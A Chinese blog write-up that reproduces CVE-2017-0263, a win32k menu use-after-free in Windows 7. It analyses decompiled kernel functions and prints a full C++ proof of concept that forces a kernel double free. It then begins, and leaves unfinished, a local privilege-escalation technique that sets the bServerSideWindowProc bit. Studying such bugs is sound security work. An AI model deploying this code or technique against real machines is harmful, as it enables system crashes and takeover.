




<small>转载请注明出处哦 :  )</small>

## 0x00 前言
emmmm距离上次更新居然过了足足一个月了（你也好意思说:unamused:

这是我第一次尝试对一个真实的漏洞进行复现而不只是在构造好的环境下。通过对这个漏洞的复现，我觉得我的知识面又拓宽了不少，学到了不少东西。至于为什么挑这个漏洞，一来是因为我自己想对 windows 的子系统有个初步的了解，二来是因为对这个漏洞有很详细的剖析。

本篇文章的思路、poc、exp 都来自于小刀志师傅的博客。小刀志师傅的文章写得特别详细，若本文中有什么细节没有讲清楚可以移步[小刀志师傅的博客](https://xiaodaozhi.com/exploit/71.html)

这个漏洞虽然也是一个 UAF 漏洞，但跟我之前所接触到的 UAF 都不一样。之前接触到的 UAF 都是对于没有置零的函数指针进行二次调用以达到执行 shellcode 的目的，但是这次的 UAF 是一个二次释放。一开始看到这个我就在想这怎么用？没有想到居然是凭着内核模式的身份，利用在漏洞触发过程中的其它代码来执行操作，以达到提权的目的。不得不再次感叹师傅们的厉害。

本篇文章的分析环境为 win7x86prosp1

## 0x01 漏洞分析

首先这个漏洞存在于函数 xxxMNEndMenuState 中，我们结合逆向和 NT4 源码来看看这个函数。

由于漏洞发生在菜单组件中，属于 win32k 模块，我们逆向一下 win32k.sys 文件看看



果然找到了这个函数，只不过里面的变量看起来比较晦涩难懂而已，没关系，我们可以结合 NT4 源码来看这个逆向的结果。

举个例子，在 IDA 中的第一行为 `_DWORD *v1; // edi`，显然对应 NT4 源码中的 `PTHREADINFO ptiCurrent;`。在 IDA 中的第二行为 `int v2; // esi`，显然对应 NT4 源码中的 `PMENUSTATE pMenuState;`。在 IDA 中的第三行为 `_DWORD *v3; // eax`，在 NT4 源码中找不到对应的代码，那就先不管他，若有必要再来进行分析。（这也是为什么我们需要逆向然后结合 NT4 源码来分析的原因，毕竟 NT4 是 96 年的代码了，即使是第一版 xp 也是 01 年发行的，在这段时间里代码肯定有发生过变化，所以 NT4 的代码并不等于我们要分析的内容，比如消息值 MN_ENDMENU 在整个 NT4 代码中都找不到定义）

稍作变换后我们可以得到差不多看得懂的代码
```c
void __stdcall xxxMNEndMenuState(BOOL fFreePopup)
{
  tagTHREADINFO *ptiCurrent; // edi
  tagMENUSTATE *pMenuState; // esi
  tagMENUSTATE *v3; // eax

  ptiCurrent = (tagTHREADINFO *)gptiCurrent;
  pMenuState = (tagMENUSTATE *)*((_DWORD *)gptiCurrent + 0x41);
  if ( !pMenuState->dwLockCount )
  {
    MNEndMenuStateNotify(*((_DWORD *)gptiCurrent + 0x41));
    if ( pMenuState->pGlobalPopupMenu )
    {
      if ( fFreePopup )
        MNFreePopup(pMenuState->pGlobalPopupMenu);
      else
        *(_DWORD *)pMenuState->pGlobalPopupMenu &= 0xFFFEFFFF;
    }
    UnlockMFMWFPWindow(&pMenuState->uButtonDownHitArea);
    UnlockMFMWFPWindow(&pMenuState->uDraggingHitArea);
    ptiCurrent->pMenuState = pMenuState->pmnsPrev;

    ----- 我是分割线，后面不用管 -----

    if ( !(*((_DWORD *)pMenuState + 1) & 0x100) )
      DecSFWLockCount();
    if ( pMenuState->hbmAni )
      MNDestroyAnimationBitmap(pMenuState);
    if ( pMenuState == (tagMENUSTATE *)&gMenuState )
    {
      gdwPUDFlags &= 0xFDFFFFFF;
      GreSetDCOwnerEx(dword_BFA1F5E0, 0, 0, 0);
    }
    else
    {
      if ( pMenuState->hdcAni )
        GreDeleteDC(pMenuState->hdcAni);
      ExFreePoolWithTag(pMenuState, 0);
    }
    v3 = ptiCurrent->pMenuState;
    if ( v3 )
    {
      if ( *((_DWORD *)v3 + 1) & 0x100 )
        xxxActivateThisWindow((WCHAR)v3->pGlobalPopupMenu->spwndActivePopup, 0, 0);
      else
        xxxMNSetCapture(v3->pGlobalPopupMenu);
    }
  }
}
```

正常创建弹出菜单销毁弹出菜单在执行 xxxMNEndMenuState 的过程中分割线往上的 if 结果都为 true

单看 xxxMNEndMenuState 函数倒没什么，我们跟进到 MNFreePopup 函数中看看 

```c
void __stdcall MNFreePopup(tagPOPUPMENU *ppopupmenu)
{
  tagWND *pmenu; // eax

  if ( ppopupmenu == ppopupmenu->ppopupmenuRoot )
    MNFlushDestroyedPopups(ppopupmenu, 1);
  pmenu = ppopupmenu->spwndPopupMenu;
  if ( pmenu && (pmenu->fnid & 0x3FFF) == 668 && ppopupmenu != (tagPOPUPMENU *)&gpopupMenu )
    pmenu[1].head.h = 0;
  HMAssignmentUnlock(&ppopupmenu->spwndPopupMenu);
  HMAssignmentUnlock(&ppopupmenu->spwndNextPopup);
  HMAssignmentUnlock(&ppopupmenu->spwndPrevPopup);
  UnlockPopupMenu(ppopupmenu, &ppopupmenu->spmenu);
  UnlockPopupMenu(ppopupmenu, &ppopupmenu->spmenuAlternate);
  HMAssignmentUnlock(&ppopupmenu->spwndNotify);
  HMAssignmentUnlock(&ppopupmenu->spwndActivePopup);
  if ( ppopupmenu == (tagPOPUPMENU *)&gpopupMenu )
    gdwPUDFlags &= 0xFF7FFFFF;
  else
    ExFreePoolWithTag(ppopupmenu, 0);
}
```

看到最后一行，将 ppopupmenu 也就是 pMenuState->pGlobalPopupMenu 即根弹出菜单对象释放后，并没有将指针置零，而且回到 xxxMNEndMenuState 的后续也可以看到没有再对 pMenuState->pGlobalPopupMenu 有任何操作，这时漏洞就产生了，一个没有被置零的野指针出现了。

有个问题是我们怎么知道 ppopupmenu 不等于 (tagPOPUPMENU *)&gpopupMenu 呢？

结合 NT4 源码来看，只有当调用 MNAllocPopup 函数时传入的参数为 0 时 ppopupmenu 才会等于 gpopupMenu。不过当我们调用 TrackPopupMenuEx 创建弹出菜单时 xxxCreateWindowEx 发送给 xxxMenuWindowProc 的消息值是 WM_NCCREATE，定位到 xxxMenuWindowProc 函数中你会发现 xxxMenuWindowProc 调用 MNAllocPopup 传入的参数是 1。看不懂我在说什么也没关系，反正你能确定 ppopupmenu 确实是不等于 gpopupMenu，也就是说会进入 else 分支就行了。

到目前为止我们大概知道漏洞发生在什么地方了。销毁弹出菜单时会调用到 xxxMNEndMenuState 函数，而 xxxMNEndMenuState 函数又会调用 MNFreePopup 函数，MNFreePopup 函数中存在着 UAF 漏洞。

接下来让我们写个 poc 来验证这个漏洞。

## 0x02 poc
想要触发这个漏洞思路很简单，让已经被释放的 pMenuState->pGlobalPopupMenu 也就是根弹出菜单对象再次被释放，这将会由于错误的产生而蓝屏。

那么问题是我们如何能够控制程序流来执行二次释放呢？

首先补充一些知识

### 阴影窗口
在 Windows XP 及更高系统的 win32k 内核模块中，系统为所有带有 CS_DROPSHADOW 标志的窗口对象创建并关联对应的类名称为 SysShadow 的阴影窗口对象，用来渲染原窗口的阴影效果。内核中存在全局表 win32k!gpshadowFirst 用以记录所有阴影窗口对象与原窗口对象的关联关系。函数 xxxAddShadow 用来为指定的窗口创建阴影窗口对象，并将对应关系写入 gpshadowFirst 全局表中。

全局表 gpshadowFirst 以链表的形式保存阴影窗口的对应关系。链表的每个节点存储 3 个指针长度的成员域，分别存储原窗口和阴影窗口的对象指针，以及下一个链表节点的指针。



简单地说，你每创建一个窗口，都会有与之对应的阴影窗口，并且与之对应的阴影窗口可以不止一个。然后每个阴影窗口也是一个 tagWND，既然是 tagWND 那么就有自己的消息处理函数。

### 消息处理函数
每一个窗口都有自己的消息处理函数，比如菜单窗口的消息处理函数就是上文提到的 xxxMenuWindowProc。在系统收到发送给窗口的消息时，就会将该消息转发给窗口的消息处理函数处理。

此外，消息处理函数是可以被 hook 的。这个 hook 可以有多种形式，主要是看我们在设置 hook 时传入的参数。比如传入参数 WH_CALLWNDPROC 就是在消息发往消息处理函数之前 hook，传入参数 WH_CALLWNDPROCRET 就是在消息发往消息处理函数之后 hook。

### 弹出菜单的创建过程
TrackPopupMenuEx 函数能够在屏幕中弹出菜单。我们看看这个函数的官方文档



传入的第一个参数是一个 HMENU 对象，也就是说我们在调用这个函数之前完成菜单对象的创建与初始化，然后调用这个函数的过程中完成窗口对象和弹出菜单对象的创建与初始化。（菜单对象: tagMENU，窗口对象: tagWND，弹出菜单对象: tagPOPUPMENU）

让我们看看 TrackPopupMenuEx 函数的执行过程。

调用 TrackPopupMenuEx 函数，会在内核中调用到 xxxTrackPopupMenuEx 函数。

xxxTrackPopupMenuEx 首先调用到 xxxCreateWindowEx 函数来创建关联的类名称为 #32768(MENUCLASS) 的窗口对象。接着 xxxCreateWindowEx 会向该菜单窗口对象发送 WM_NCCREATE 消息值。（注意一下消息处理函数在这里有被调用，也就是说若我们有 hook 的话在这里会有一次劫持）消息处理函数接收到 WM_NCCREATE 消息值会为该菜单窗口对象创建弹出菜单对象。（tagWND 和 tagPOPUPMENU 都是在 xxxCreateWindowEx 执行期间创建的）

xxxTrackPopupMenuEx 继续执行，不管它中间做了什么，之后 xxxTrackPopupMenuEx 的执行流会来到调用 xxxSetWindowPos 函数。

xxxSetWindowPos 函数的作用是设置 tagWND 在屏幕中的坐标并将其显示在屏幕上

```c
/* xxxSetWindowPos 代码片段 */

...

v8 = InternalBeginDeferWindowPos(1);
if ( !v8 )
  return 0;
v9 = _DeferWindowPos(v8, a1, a2, a3, a4, a5, a6, uFlags);
if ( !v9 || !xxxEndDeferWindowPosEx(v9, uFlags & 0x4000) )
  return 0;
if ( v11 )
  xxxRedrawWindow(a1, 0, 0, 1157);
return 1;
```

前面三个函数的作用是设置屏幕坐标，最后一个函数 xxxRedrawWindow 用来将窗口显示到屏幕上。很明显，xxxEndDeferWindowPosEx 宣布着屏幕坐标变化操作的完成。

xxxEndDeferWindowPosEx 函数会调用 xxxSendChangedMsgs 函数。阴影窗口的创建以及阴影窗口与我们的菜单窗口的关联，也就是 xxxAddShadow 函数的调用，都是在 xxxSendChangedMsgs 函数中完成的。

简单总结一下弹出菜单创建过程的执行流程:

```c
xxxTrackPopupMenuEx
	xxxCreateWindowEx
	xxxSetWindowPos
		xxxEndDeferWindowPosEx
		xxxSendChangedMsgs
		xxxAddShadow
```

阴影窗口也是窗口，也会调用 xxxCreateWindowEx 来创建 tagWND。言外之意就是在 xxxAddShadow 调用 xxxCreateWindowEx 期间可以被 hook。稍微逆向一下就可以看到 xxxAddShadow 确实是调用 xxxCreateWindowEx 来创建阴影窗口，接着添加关联关系。

### 弹出菜单的销毁过程
当菜单窗口对象的消息处理函数接收到 MN_ENDMENU（0x1F3） 消息值时，执行菜单窗口的销毁过程

```c
MN_ENDMENU:
    xxxEndMenuLoop((tagMENUSTATE *)pMenuState, pMenuState->pGlobalPopupMenu);
    // *(_DWORD *)(pMenuState + 4) & 0x100 是 fModelessMenu 标志位
    if ( *(_DWORD *)(pMenuState + 4) & 0x100 )
      xxxMNEndMenuState(1);
    return 0;
```

xxxEndMenuLoop 用以隐藏菜单的显示以及销毁预处理，
xxxMNEndMenuState 用以清理菜单状态信息以及菜单窗口对象和弹出菜单对象的销毁。

> 为了追踪菜单如何被使用，win32k 将一个菜单状态结构体 tagMENUSTATE 与当前活跃菜单关联起来。通过这种方式，函数能够知道菜单是否在拖拽操作中调用、是否在菜单循环中、是否即将销毁，等等。

> 菜单状态结构体用来存储与当前活跃菜单的状态相关的详细信息，包括上下文菜单弹出的坐标、关联的位图表面对象的指针、窗口设备上下文对象、之前的上下文菜单结构体的指针，以及其他的一些成员域。

xxxEndMenuLoop 的操作流程在本次利用中不太重要，重要的是在 xxxEndMenuLoop 的执行过程中，调用xxxDestroyWindow 在隐藏窗口时会有一次销毁阴影窗口的操作，在尝试销毁菜单窗口（为什么说是尝试，因为锁计数在此时还不为 0 不会释放内存空间）时又会有一次销毁阴影窗口的操作。

简单总结一下 xxxEndMenuLoop 的操作流程:（略过了很多东西）

```c
xxxEndMenuLoop
  xxxDestroyWindow
    xxxSetWindowPos
      xxxRemoveShadow
    xxxFreeWindow
      xxxRemoveShadow
```

xxxMNEndMenuState 的代码在[第一部分](https://50u1w4y.github.io/site/recurrence/CVE-2017-0263/#0x01)中贴过一次了，这里再贴一下一小段代码

```c
if ( pMenuState->pGlobalPopupMenu )
{
  if ( fFreePopup )
    MNFreePopup(pMenuState->pGlobalPopupMenu);
  else
    *(_DWORD *)pMenuState->pGlobalPopupMenu &= 0xFFFEFFFF;
}
UnlockMFMWFPWindow(&pMenuState->uButtonDownHitArea);
UnlockMFMWFPWindow(&pMenuState->uDraggingHitArea);
ptiCurrent->pMenuState = pMenuState->pmnsPrev;
```

MNFreePopup 对各种锁计数进行 unlock 后释放 tagPOPUPMENU 的内存空间（释放内存空间是销毁的最后一步，到这里才算真正地销毁一个对象）

我们知道当一个对象的锁计数为 0 时就会被操作系统调用它的销毁函数来进行销毁。不过看到上面贴的那一小段代码的最后一行 

`ptiCurrent->pMenuState = pMenuState->pmnsPrev;`

通常情况下 pmnsPrev 的值为 0。也就是说，若我们让 xxxMNEndMenuState 执行完的话 ptiCurrent->pMenuState 就变成 NULL 了，假设我们在这之后控制了程序的执行流再次调用 xxxMNEndMenuState，由于到处都需要用到 pMenuState，所以程序必然不会按我们想的正常执行，而是会在某个地方出问题。所以若我们想劫持程序流的话，就要在 ExFreePoolWithTag 发生之后 ptiCurrent->pMenuState = pMenuState->pmnsPrev 发生之前。

正好在这之间还有两行代码。菜单状态结构体的成员域 uButtonDownHitArea 和 uDraggingHitArea 存储当前鼠标点击坐标位于的窗口对象指针和鼠标拖拽坐标位于的窗口对象指针。也就是说，这两个东西是有窗口对象的锁计数的。

所以，若我们在鼠标按下期间触发 xxxMNEndMenuState，那么 tagWND 的销毁正好是在 UnlockMFMWFPWindow(&pMenuState->uButtonDownHitArea); 执行期间（因为在这个调用过程中锁计数才会变为 0），若我们在这个时候劫持程序流的话，正好达到了在 ExFreePoolWithTag 发生之后 ptiCurrent->pMenuState = pMenuState->pmnsPrev 发生之前这个条件。

很容易想到劫持销毁函数就可以劫持程序流了。问题是窗口对象是一个无处不在的类，我们不可能去修改它的销毁函数，而且要修改销毁函数也无法在用户模式下做到。但是没关系，还记得阴影窗口的存在吗？窗口对象的销毁函数是 xxxDestroyWindow，在它的执行过程中会调用 xxxRemoveShadow 去尝试销毁窗口对象的阴影窗口对象。若在此时我们的窗口对象还有阴影窗口存在，xxxRemoveShadow 会再次被调用到以销毁阴影窗口对象。阴影窗口对象也是窗口，它的销毁同样会调用到 xxxDestroyWindow->xxxFreeWindow。在 xxxFreeWindow 执行期间会最后一次向该窗口的消息处理函数发送 WM_NCDESTROY 消息。

```c
/* xxxFreeWindow 执行片段 */
xxxSendMessage(pwnd, 0x82, 0, 0);
```

阴影窗口对象不带有专门的窗口消息处理函数，因此可以在用户进程中将窗口对象的消息处理函数成员域篡改为由用户进程自定义的消息处理函数，在自定义函数中，再次触发菜单终止的任务，致使漏洞成功触发。

### poc
到这里目前为止要补充的知识应该都补充完了，希望没有说一堆废话 : )

所以若我们要触发漏洞的话，思路很明显了

> 1. 创建两个弹出菜单，一个作为另一个的子菜单（为什么要两个，因为要让 uButtonDownHitArea 拥有根菜单的锁计数）
> 2. 调用 TrackPopupMenuEx 以显示弹出菜单
> 3. 在 TrackPopupMenuEx 调用 xxxSetWindowPos 创建阴影窗口时通过之前设置的 hook 多创建两个阴影窗口（为什么要多创建两个，为的是让最后销毁根菜单时还剩一个被定义了我们的消息处理函数的阴影窗口）
> 4. 在根菜单成功显示之后按下左键以显示子菜单
> 5. 在子菜单显示之后向子菜单发送 MN_ENDMENU 消息以关闭整个菜单
> 6. 关闭菜单会调用到 xxxMNEndMenuState，释放 tagPOPUPMENU 的内存空间
> 7. 之后 xxxMNEndMenuState 调用 UnlockMFMWFPWindow(&pMenuState->uButtonDownHitArea) 使根菜单的锁计数变为 0，这个操作会导致调用销毁函数销毁根菜单，在这个过程中会再次调用到 xxxRemoveShadow，最终程序流来到了我们定义的阴影窗口的消息处理函数
> 8. 在我们定义的阴影窗口的消息处理函数再次调用 xxxMNEndMenuState 以二次释放已经释放了的 tagPOPUPMENU 内存区域（虽然已经释放了，但 tagPOPUPMENU 的指针还在，这也是 UAF 的产生原因）

再次调用 xxxMNEndMenuState 可以通过调用系统服务 NtUserMNDragLeave 来执行到。

到这里关于 poc 的内容应该都说过了吧，以下贴出 poc，就不做解释了

```c
// poc.cpp : Defines the entry point for the console application.
//

#include "pch.h"

#include <Windows.h>

// 未文档化
#define MN_ENDMENU 0x1F3

static constexpr UINT num_PopupMenuCount = 2;
static HMENU hpopupMenu[num_PopupMenuCount] = { 0 };
static UINT  iMenuCreated = 0;
static UINT iShadowCount = 0;
static HWND hwndMenuHit = 0;

ULONG_PTR
xxSyscall(UINT num, ULONG_PTR param1, ULONG_PTR param2)
{
	__asm { mov eax, num };
	__asm { int 2eh };
}

CONST UINT num_NtUserMNDragLeave = 0x11EC;

LRESULT WINAPI
xxShadowWindowProc(
	_In_ HWND   hwnd,
	_In_ UINT   msg,
	_In_ WPARAM wParam,
	_In_ LPARAM lParam
)
{
	if (msg == WM_NCDESTROY)
	{
		xxSyscall(num_NtUserMNDragLeave, 0, 0);
	}
	return DefWindowProcW(hwnd, msg, wParam, lParam);
}

VOID CALLBACK
xxWindowEventProc(
	HWINEVENTHOOK hWinEventHook,
	DWORD         event,
	HWND          hwnd,
	LONG          idObject,
	LONG          idChild,
	DWORD         idEventThread,
	DWORD         dwmsEventTime
)
{

	if (++iMenuCreated >= 2)
	{
		// 向子菜单发送 MN_ENDMENU 以关闭整个菜单
		SendMessageW(hwnd, MN_ENDMENU, 0, 0);
	}
	else
	{
		SendMessageW(hwnd, WM_LBUTTONDOWN, 1, 0x00020002); // (2,2)
	}
}

// 弹出窗口和阴影窗口创建时都会调用到这个函数
LRESULT CALLBACK
xxWindowHookProc(INT code, WPARAM wParam, LPARAM lParam)
{

	tagCWPSTRUCT *cwp = (tagCWPSTRUCT *)lParam;
	if (cwp->message != WM_NCCREATE)
	{
		return CallNextHookEx(0, code, wParam, lParam);
	}
	WCHAR szTemp[0x20] = { 0 };
	GetClassNameW(cwp->hwnd, szTemp, 0x14);

	if (!wcscmp(szTemp, L"#32768"))
	{
		hwndMenuHit = cwp->hwnd;
	}

	if (!wcscmp(szTemp, L"SysShadow") && hwndMenuHit != NULL)
	{
		iShadowCount++;

		if (iShadowCount == 3)
		{
			// cwp -> hwnd : 第三个阴影窗口
			// GWL_WNDPROC : 设置一个新的消息处理函数
			SetWindowLongW(cwp->hwnd, GWL_WNDPROC, (LONG)xxShadowWindowProc);
		}
		else
		{
      // 先隐藏再关闭就可以再次创建阴影窗口
			SetWindowPos(hwndMenuHit, NULL, 0, 0, 0, 0, SWP_NOSIZE | SWP_NOMOVE | SWP_NOZORDER | SWP_HIDEWINDOW);
			SetWindowPos(hwndMenuHit, NULL, 0, 0, 0, 0, SWP_NOSIZE | SWP_NOMOVE | SWP_NOZORDER | SWP_SHOWWINDOW);
		}
	}
	return CallNextHookEx(0, code, wParam, lParam);
}

int main()
{

	LPCSTR szMenuItem = "item";
	MENUINFO mi = { 0 };
	mi.cbSize = sizeof(mi);
	// MIM_STYLE 表明要设置 dwStyle 这个标志位
	mi.fMask = MIM_STYLE;
	// autodismiss 鼠标移到菜单窗口外面一会儿窗口会自动消失
	// modeless 非模态
	// dragdrop 拖放窗口
	mi.dwStyle = MNS_AUTODISMISS | MNS_MODELESS | MNS_DRAGDROP;

	HMENU hpopupMenu[2] = { 0 };

	// 用 CreatePopupMenu 创建的菜单是空的，后面用 AppendMenu 来添加 items
	hpopupMenu[0] = CreatePopupMenu();
	hpopupMenu[1] = CreatePopupMenu();
	SetMenuInfo(hpopupMenu[0], &mi);
	SetMenuInfo(hpopupMenu[1], &mi);

	AppendMenuA(hpopupMenu[0], MF_BYPOSITION | MF_POPUP, (UINT_PTR)hpopupMenu[1], szMenuItem);
	AppendMenuA(hpopupMenu[1], MF_BYPOSITION | MF_POPUP, 0, szMenuItem);

	WNDCLASSEXW wndClass = { 0 };
	wndClass = { 0 };
	wndClass.cbSize = sizeof(WNDCLASSEXW);
	wndClass.lpfnWndProc = DefWindowProcW;
	wndClass.cbWndExtra = 0;
	wndClass.hInstance = GetModuleHandleA(NULL);
	wndClass.lpszMenuName = NULL;
	wndClass.lpszClassName = L"WNDCLASSMAIN";
	RegisterClassExW(&wndClass);
	HWND hWindowMain = CreateWindowExW(WS_EX_LAYERED | WS_EX_TOOLWINDOW | WS_EX_TOPMOST,
		L"WNDCLASSMAIN",
		NULL,
		WS_VISIBLE,
		0,  // x
		0,  // y
		1,  // width
		1,  // height
		NULL,
		NULL,
		GetModuleHandleA(NULL),
		NULL);

	SetWindowsHookExW(WH_CALLWNDPROC, xxWindowHookProc,
		GetModuleHandleA(NULL),
		GetCurrentThreadId());
	SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART, EVENT_SYSTEM_MENUPOPUPSTART,
		GetModuleHandleA(NULL),
		xxWindowEventProc,
		GetCurrentProcessId(),
		GetCurrentThreadId(),
		0);

	TrackPopupMenuEx(hpopupMenu[0], 0, 0, 0, hWindowMain, NULL);

	MSG msg = { 0 };
	while (GetMessageW(&msg, NULL, 0, 0))
	{
		TranslateMessage(&msg);
		DispatchMessageW(&msg);
	}

	return 0;
}
```

## 0x03 exp
到目前我们我们已经知道成因了，问题是我们怎么利用呢？一个二次释放的蓝屏洞有办法利用吗？

二次释放的蓝屏洞当然没办法利用，但是我们可以凭着内核模式的身份，利用在这个过程中的其它代码来执行某些操作，以达到我们想要的目的。一般漏洞利用就是 RCE 或者本地提权，这个漏洞一看也知道不可能出 RCE，所以我们的利用最终目的就是本地提权了。

### bServerSideWindowProc
窗口结构体 tagWND 对象的成员标志位 bServerSideWindowProc 是一个特殊标志位，该标志位决定所属窗口对象的消息处理函数属于服务端还是客户端。当函数 xxxSendMessageTimeout(xxxSendMessage 里调用的) 即将调用目标窗口对象的消息处理函数以分发消息时，会判断该标志位是否置位。

如果该标志位置位，则函数将直接使当前线程在内核上下文调用目标窗口对象的消息处理函数；否则，函数通过调用函数 xxxSendMessageToClient 将消息发送到客户端进行处理，目标窗口对象的消息处理函数将始终在用户上下文调用和执行。

诸如菜单窗口对象之类的特殊窗口对象拥有专门的内核模式消息处理函数，因此这些窗口对象的成员标志位 bServerSideWindowProc 在对象创建时就被置位。而普通窗口对象由于只指向默认消息处理函数或用户进程自定义的消息处理函数，因此该标志位往往不被置位。

如果能够通过某种方式将未置位标志位 bServerSideWindowProc 的窗口对象的该标志位置位，那么该窗口对象指向的消息处理函数也将直接在内核上下文中执行。

到这里只要我们想办法让一个我们创建的普通窗口对象的 bServerSideWindowProc 位被置位，那么我们就可以在内核模式下执行我们自定义的消息处理函数了。若消息处理函数中放的是提权代码，那么理所当然地就能完成提权了。

所以问题就来到了如何使 bServerSideWindowProc 位被置位呢？

我们看看 bServerSideWindowProc 所在地址的字节

```c
+0x014 bDialogWindow    : Pos 16, 1 Bit
+0x014 bHasCreatestructName : Pos 17, 1 Bit
+0x014 bServerSideWindowProc : Pos 18, 1 Bit
+0x014 bAnsiWindowProc  : Pos 19, 1 Bit
+0x014 bBeingActivated  : Pos 20, 1 Bit
+0x014 bHasPalette      : Pos 21, 1 Bit
+0x014 bPaintNotProcessed : Pos 22, 1 Bit
+0x014 bSyncPaintPending : Pos 23, 1 Bit
```

假设 tagWND + 0x16 的值为 11111110，那么该字节为

```c
+0x014 bDialogWindow    : 0
+0x014 bHasCreatestructName : 1
+0x014 bServerSideWindowProc : 1
+0x014 bAnsiWindowProc  : 1
+0x014 bBeingActivated  : 1
+0x014 bHasPalette      : 1
+0x014 bPaintNotProcessed : 1
+0x014 bSyncPaintPending : 1
```

还记得 MNFreePopup 中的一堆解锁操作吗？假设我们把这一个字节减去 4 个 DWORD 距离的地址作为某一个 tagWND 的地址（比如 tagPOPUPMENU -> spwndPrevPopup），那么解锁操作将会把 bServerSideWindowProc 所在字节当作 cLockObj 的最低一个字节进行自减操作。

假设 cLockObj 是 0x01020304，那么 bServerSideWindowProc 所在的字节就是 04

而我们又知道在一个字节中 pos 越高的位排在越左边，所以 bServerSideWindowProc、 bHasCreatestructName、 bDialogWindow 就是 cLockObj 的最低三位。

根据测试可以得到，当样式参数 dwStyle 和扩展样式参数 dwExStyle 都传值为 0 默认值，那么在内核中成员域 bDialogWindow 和 bHasCreatestructName 都将未被置位

也就是说，cLockObj 的最低三位都为 0。因为最低三位都为 0，所以只要 cLockObj 不为 0，对 cLockObj 进行自减操作必将最低三位置零。也就是说我们的 bServerSideWindowProc 将得以置位。

### exp

让我们先理一理思路，我们应该如何 exp 呢?

> 1. 从 poc 一节中可以知道，ExFreePoolWithTag 之后的 UnlockMFMWFPWindow(&pMenuState->uButtonDownHitArea) 操作使我们可以劫持程序流，执行我们自定义的阴影窗口消息处理函数
> 2. 在阴影窗口消息处理函数中伪造一个 tagPOPUPMENU，再次分配以填在刚刚 ExFreePoolWithTag 的位置上。这个伪造的 tagPOPUPMENU 的某一个指针（比如 spwndPrevPopup）指向我们创建的普通窗口对象的 bServerSideWindowProc 所在字节的位置减去 4 个 DWORD 距离的地址处
>> 补充一下，先看这张图
>> 
